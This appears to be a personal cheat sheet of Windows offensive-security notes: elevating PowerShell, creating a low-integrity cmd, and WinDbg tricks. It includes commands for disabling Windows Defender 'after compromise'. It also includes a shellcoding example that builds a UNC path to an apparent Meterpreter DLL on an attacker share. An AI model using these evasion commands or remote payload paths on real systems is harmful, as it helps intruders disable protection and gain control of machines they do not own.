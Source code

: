 # Windows

---

### Table of Contents
- [Run Powershell Elevated](#run-powershell-elevated)
- [Disable Windows Defender](#disable-windows-defender)
- [Creating low Integrity cmd](#creating-low-integrity-cmd)
- [WinDbg Fu](#windbg-fu)
	- [Grep Like Feature](#grep-like-feature)
	- [ASCII to DWORDS](#ascii-to-dwords)
	- [Levels not Implemented for This Platform](#levels-not-implemented-for-this-platform)
---

# Run Powershell Elevated
- Sometime is might be needed to start an elevated powershell from commandline

```powershell
# Directly from cmd
powershell -Command "Start-Process PowerShell -Verb RunAs"

# Start powershell first and than elevate
powershell
Start-Process PowerShell -Verb RunAs
```

## Disable Windows Defender
- In general (not directly working after compromise, even with system privileges )

```powershell
# use "query" to check status
sc stop WinDefend
```

- ... use one or more of these

```powershell
# Remove without reboot
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet

# ... with reboot
Uninstall-WindowsFeature -Name Windows-Defender

# Disable real-time-protection
Set-MpPreference -DisableRealtimeMonitoring $true

# Exclude path
Set-MpPreference -ExclusionPath PATH_HERE

# Remove signatures
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -removedefinitions

# Disable application guard
Disable-WindowsOptionalFeature -FeatureName "Windows-Defender-ApplicationGuard" -Online
```

## Creating low Integrity cmd
- Creating cmd.exe with low integrity (here: from commmon cmd.exe, which runs by default as medium integrity)
- Same works for switching to high integrity, but this has to be done with elevated privileges: high > medium > low

```powershell
copy C:\Windows\System32\cmd.exe cmd_low.exe

icacls cmd_low.exe /setintegritylevel low

icacls.exe cmd_low.exe
	cmd_low.exe NT AUTHORITY\SYSTEM:(F)
	               BUILTIN\Administrators:(F)
	               PC\useer:(F)
	               NT AUTHORITY\SYSTEM:(I)(F)
	               BUILTIN\Administrators:(I)(F)
	               PC\user:(I)(F)
	               Mandatory Label\Low Mandatory Level:(NW)
```

## WinDbg Fu
- Just some `WinDbg` commands for the lazy

### Grep Like Feature
- Grep like feature by using `.shell` command

```powershell
.shell -ci "lm" findstr /i kern 
```

### ASCII to DWORDS
- Create DWORDS from an ASCII string, useful for in terms of, e.g. shellcoding
- Same works for `unicode` with `eu`

```powershell
ea rsp+8 "\\\\192.168.73.128\\pwn\\met.dll"

da rsp+8
	00000044`cf0ffef0  "\\192.168.73.128\pwn\met.dll"

dd rsp+8 L8
	00000044`cf0ffef0  39315c5c 36312e32 33372e38 3832312e
	00000044`cf0fff00  6e77705c 74656d5c 6c6c642e 00000000
```

### Levels not Implemented for This Platform
- If `pte` command, e.g `!pte 0x0` reports `Levels not implemented for this platform`, a reboot of the system might help
- If this happens during kernel debugging, it might help to reboot both, debugger and debuggee

```powershell
!pte 0x0
	Levels not implemented for this platform

# reboot

!pte 0x0
	                                           VA 0000000000000000
	PXE at FFFFADD6EB75B000    PPE at FFFFADD6EB600000    PDE at FFFFADD6C0000000    PTE at FFFFAD8000000000
	contains 8A00000082A29867  contains 0000000000000000
	pfn 82a29     ---DA--UW-V  contains 0000000000000000
	not valid
```










